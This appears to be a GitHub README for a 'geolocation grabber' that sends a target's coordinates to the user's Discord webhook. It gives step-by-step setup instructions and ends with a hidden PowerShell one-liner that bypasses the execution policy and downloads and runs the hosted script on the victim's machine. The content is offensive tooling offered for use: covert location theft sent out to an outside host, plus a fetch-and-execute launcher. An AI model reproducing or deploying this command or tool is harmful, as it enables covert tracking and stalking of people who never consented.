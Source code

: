 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<img src="https://user-images.githubusercontent.com/93588803/209905806-c66ec56d-fc37-4d78-8274-f7050838d199.png?raw=true" width="350" title="hover text">
<p>click geolocationgraber.ps1.txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
 ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
